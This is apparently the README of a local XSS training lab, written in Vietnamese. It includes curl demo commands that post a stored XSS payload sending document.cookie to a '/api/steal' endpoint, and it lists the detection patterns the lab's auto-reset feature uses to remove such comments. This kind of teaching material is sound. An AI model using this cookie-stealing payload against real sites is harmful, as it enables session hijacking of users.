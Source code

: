 ### Demo

```bash
# 1. Login
curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"user1","password":"password1"}'

# 2. Post XSS
curl -X POST http://localhost:3000/api/comment \
  -H "Content-Type: application/json" \
  -H "Cookie: auth=user1:password1" \
  -d '{"comment":"<script>fetch(\"/api/steal?cookie=\"+document.cookie)</script>"}'

# 3. Đợi 5 giây → Check server console → Stolen cookie!
```

---

## 🔄 2. Auto-Reset (Xóa XSS Comments)

### Vấn Đề Cũ

-   Post XSS payload → Bị redirect liên tục
-   Phải restart server để reset
-   Khó test nhiều payloads

### Giải Pháp

Khi truy cập trang chính `/`, server **tự động phát hiện và xóa XSS comments**.

### Workflow

```
User truy cập http://localhost:3000/
       ↓
🔄 Server kiểm tra comments có XSS?
       ↓
Có: <script>, <img>, <svg>, onerror
       ↓
🧹 Xóa TẤT CẢ comments
       ↓
✅ Khôi phục 4 comments mặc định
       ↓
Trang chính hiển thị bình thường
```

### Phát Hiện XSS Patterns

Server check comments có chứa:

-   `<script` → Script injection
-   `<img` → Image-based XSS
-   `<svg` → SVG-based XSS
-   `onerror` → Event handler XSS
